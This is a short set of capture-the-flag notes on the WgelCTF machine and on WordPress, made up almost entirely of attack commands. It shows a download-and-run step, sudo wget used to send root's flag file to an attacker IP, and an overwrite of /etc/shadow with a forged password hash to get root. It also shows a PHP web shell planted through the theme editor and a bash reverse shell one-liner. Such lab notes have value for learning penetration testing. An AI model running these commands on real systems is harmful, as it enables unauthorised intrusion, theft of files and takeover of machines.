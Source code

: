 ```bash
curl http://<our IP>:<por>/<file> -o /tmp/r
chmod +x /tmp/r
/tmp/r # run after netcat is listening
```

# PrivEsc WgelCTF

user was able to use wget as SUDO...

1: 
```bash
sudo wget --post-file /root/root.txt http://10.10.14.5:443/
```

I sent the flag through http.server

2:
## Create shadow file
```bash
openssl passwd -1 -salt 0xdf password

sudo wget -O /etc/shadow http://10.10.14.5/shadow
su -
```

I did a file a shadow file and overwrote the actual shadow of the machine
```bash
root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:18195:0:99999:7:::
```

so when the command 'su -' is written, I get root access.

```bash
root@CorpOne:~# id
uid=0(root) gid=0(root) groups=0(root)
```


# Extra notes

|Service|User|Password|Notes|
|---|---|---|---|
|Wordpress|administrator|||

> Wordpress
Appearance > theme-editor > select a theme that is not in use > 404 Template > edit your php file

```bash
<?php system($_REQUEST['cmd']); ?>
```

dominio/main/wp-content/themes/<theme>/404.php?cmd=whoami

```bash
bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1' # You can encode with burp before send
curl <ip:port>
```
